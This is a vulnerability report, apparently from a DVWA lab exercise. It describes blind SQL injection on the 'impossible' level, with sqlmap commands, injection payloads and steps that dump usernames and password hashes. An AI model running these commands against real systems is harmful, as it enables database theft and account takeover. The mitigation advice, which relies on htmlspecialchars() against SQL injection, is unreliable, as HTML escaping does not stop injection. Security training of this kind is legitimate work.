









# Blind SQL injections leads to database dump of all usernames and their password hashes on level impossible

**Summary:**

Blind SQL Injection leads to all databases and their tables being dumped when on level impossible.

**Description:**

- Blind SQL injections occur when an application is vulnerable to an SQL injection, however no SQL query results are contained in the HTTP response. Instead there may be a time delay or a message to confirm that the query was correct which allows programs such as sqlmap to enumerate through SQL databases including their tables.
- A tool called sqlmap can be used to scan all the databases and their contents including the username and password hash of every user in the database. This is possibly due to special characters being accepted in the input because functions like htmlspecialchars() may not be used.

Affected URL: http://localhost/DVWA/vulnerabilities/sqli_blind/index.php

Affected Object: User ID input box.

**Severity:**

P1: Critical 

Server-Side Injection > SQL Injection

**Steps to Reproduce:**
1. Login with a user account and set the security level to impossible.

2. Go to the SQL Injection (Blind) activity and input a successful input such as 2.

Affected URL: http://localhost/DVWA/vulnerabilities/sqli_blind/index.php

3. Go to Burp Suite and add a successful request attempt with a correct id value to repeater and copy down the cookies.

4. Use a tool called sqlmap from Github 

sqlmap: https://github.com/sqlmapproject/sqlmap 

and fill the command out like so using the cookies obtained from burp suite:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="security=impossible; PHPSESSID=h1nvkhckj1apfboclmqhrrh31d" | tee dvwa_sqlmap_impossible.txt

5. Run the command and the following vulnerabilities detected will be:

        Parameter: id (POST)

            Type: boolean-based blind
            Title: AND boolean-based blind - WHERE or HAVING clause
            Payload: id=2 AND 3782=3782&Submit=Submit

            Type: time-based blind
            Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
            Payload: id=2 AND (SELECT 3999 FROM (SELECT(SLEEP(5)))ZrUr)&Submit=Submit

6. All database names can be discovered using the following command:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="PHPSESSID=h1nvkhckj1apfboclmqhrrh31d;security=impossible" --dbs | tee dvwa_sqlmap_impossible.txt

    Databases returned:
    - dvwa
    - information_scheme

7. Dump all the table data for the 'dvwa' database with the following command:

python3 sqlmap.py -u "http://localhost:80/DVWA/vulnerabilities/sqli_blind/" --data="id=2&Submit=Submit" --cookie="PHPSESSID=h1nvkhckj1apfboclmqhrrh31d;security=impossible" -D dvwa --dump | tee dvwa_sqlmap_impossible.txt

8. Say 'y' to all the options:

**Impact**

You will find the whole database is revealed containing usernames and the password hashes. Weak passwords that are hashed will be cracked with sqlmap via a dictionary attack. This information can be used to log into any user account.

**Recommended Mitigation**

- Remove all special characters including quotes and any comments that could be run in SQL. This can be done with the htmlspecialchars() php function.
- Make sure that if a numeric value is expected that only a numeric value can be accepted. Use conditions with functions such as: 
if(is_numeric( $id )) { $id = intval($id); {Your query code with (:id) and is returned as output}}
